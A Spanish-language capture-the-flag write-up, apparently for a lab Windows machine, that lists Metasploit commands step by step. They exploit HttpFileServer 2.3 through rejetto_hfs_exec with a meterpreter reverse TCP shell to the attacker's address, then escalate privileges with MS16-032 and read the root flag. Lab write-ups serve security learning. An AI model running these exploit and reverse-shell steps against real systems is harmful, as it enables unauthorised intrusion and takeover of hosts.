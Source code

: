 - Maquina: Windows
- Level: Easy
- IP: 10.10.10.8

## Herramientas a utilizar:

- nmap
- searchspoit 
- msfconsole


```
nmap -sC -sV -n -o scan_optimum.txt 10.10.10.8
```
>En el resultado de nmap veremos:

|PORT   | STATE | SERVICE | VERSION |
|-------|-------|---------|---------|
|80/tcp | open  |  http   | HttpFileServer httpd 2.3|

>Para tener shell con metaexploit
```
msfconsole
```
```
search rejetto
```
```
use exploit/windows/http/rejetto_hfs_exec
```
```
set RHOST 10.10.10.8
set RPORT 80
set SRVHOST 10.10.14.15 {la direccion ip vpn_htb}
set SRVPORT 60001
set PAYLOAD windows/x64/meterpreter/reverse_tcp`
set LHOST 10.10.14.15 {la direccion ip vpn_htb}
set lport 60001
exploit
```

> Una vez tengamos la session creada de metaexploit haremos lo siguiente para escalar privilegio

Crtl+Z 
y (esto es para volver a metaexploit y dejamos en backgroup la session 1)

```
search suggest
use 4  {post/multi/recon/local_exploit_suggester}
set session 1
run
```

> Como no funciono, nos iremos por otra via.
```
session -i 1
ps
```
`migrate 2088` este es el `pid{2088}` del proceso de `C:\windows\explorer.exe`,  puede variar)

Volvermos a verificar si ya tenemos un meterpreter en x64
`systeminfo`
Crtl+Z 
y (esto es para volver a metaexploit y dejamos en backgroup la session 1)
`run`

>Como no logramos tener exito probaremos con el siguiente exploit
```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set session 1
options
set lhost 10.10.14.15
run
```
>Listo solo tenemos que ir a C:\users\administrator\Desktop
`cat root.txt Done!!!
`